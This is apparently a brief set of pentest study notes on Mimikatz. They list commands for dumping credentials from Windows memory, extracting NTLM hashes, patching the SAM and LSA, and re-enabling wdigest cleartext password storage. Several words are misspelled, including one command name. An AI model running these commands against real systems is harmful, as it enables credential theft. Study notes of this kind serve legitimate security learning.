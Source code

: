 # Mimikatz

Tool used to view and streal credentials, generate Kerberos tickets, and leverage attacks.

Dumps credentials stored in memory

pirvilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection

sekurlsa::logonpasswords

  - Can get users NTLM hash, and more

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

lsadump::sam /patch

lsadump::lsa /patch

